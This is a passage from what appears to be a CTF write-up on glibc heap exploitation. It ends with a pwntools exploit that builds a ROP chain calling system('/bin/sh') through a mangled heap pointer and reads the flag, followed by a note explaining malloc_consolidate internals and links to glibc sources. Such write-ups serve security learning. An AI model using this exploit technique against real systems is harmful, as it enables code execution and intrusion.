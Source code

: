 ```python

pop_rdi = libc.address + 0x000000000010F75B
bin_sh_string = next(libc.search(b"/bin/sh\x00"))
system_fn = libc.sym["system"]

update(1, p64(mangle(chunks + 1 * 0x30, saved_rbp)))
create(9, b"f")
create(10, flat(heap_base + 0x8000, pop_rdi, bin_sh_string, pop_rdi + 1, system_fn))

io.sendline(b"cat flag.txt")

io.interactive()
```

## Appendix

- <https://heap-exploitation.dhavalkapil.com/diving_into_glibc_heap/security_checks>
- <https://github.com/cloudburst/libheap/blob/master/heap.png>
- <https://intranautic.com/posts/glibc-ptmalloc-internals/>
- <https://blog.quarkslab.com/heap-exploitation-glibc-internals-and-nifty-tricks.html#2.%20libc%20leak>

### `malloc_consolidate` Note

If we expand `unsorted_chunks` macro and evaluate the expression, `unsorted_bin`
is equal to `((char*)&(av->bins[0])) - 0x10`, which is equivalent to `&(av->top)`
(see `malloc_state` struct for clarity[^99])

```c
// https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1523
#define bin_at(m, i) \
  (mbinptr) (((char *) &((m)->bins[((i) - 1) * 2]))			      \
             - offsetof (struct malloc_chunk, fd))

// https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1662
#define unsorted_chunks(M)          (bin_at (M, 1))

// https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4828
unsorted_bin = unsorted_chunks(av)
```

The following code snippet is responsible for consolidating fastbin chunk into
unsorted bin

```c
// https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4880

// unsorted_bin points to &(av->top) and since it is casted to mchunkptr,
// unsorted_bin->fd points to av->bin[0] and
// unsorted_bin->bk poitns to av->bin[1]

first_unsorted = unsorted_bin->fd
unsorted_bin->fd = p  // set av->bin[0] to p
first_unsorted->bk = p

// ...

p->bk = unsorted_bin
p->fd = first_unsorted
```


[^1]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L329>
[^2]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4513>
[^3]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4678>
[^4]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4720>
[^5]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4538>
[^6]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4527>
[^9]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4041>
[^10]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L3914>
[^11]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L3977>
[^12]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L4161>
[^99]: <https://elixir.bootlin.com/glibc/glibc-2.39/source/malloc/malloc.c#L1812>